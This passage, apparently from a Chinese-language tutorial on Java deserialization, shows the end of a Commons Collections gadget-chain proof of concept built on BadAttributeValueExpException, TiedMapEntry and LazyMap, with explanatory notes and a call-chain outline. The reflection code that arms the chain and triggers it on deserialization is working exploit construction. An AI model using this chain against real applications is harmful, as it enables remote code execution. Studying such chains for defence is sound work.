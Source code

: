         valField.setAccessible(true);
        valField.set(toBeSerBAVEException, lazyMapTiedMapEntry);
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerBAVEException);
        unSerialize(serialize);
    }
    ```

2. 这里不用构造函数的原因是：
    ![image-20240927114003440](Serialization-Java/image-20240927114003440.png)
    其会调用一次 `val.toString()`，所以序列化的时候会执行一次。

3. 链大致如下：
    ```java
    /*
    	BadAttributeValueExpException.readObject()
    		TiedMapEntry.toString()
    			TiedMapEntry.getValue()
    	         	LazyMap.get()
    	         		LazyMap.transform()
    						LazyMap.get()
    							....
    */
    ```
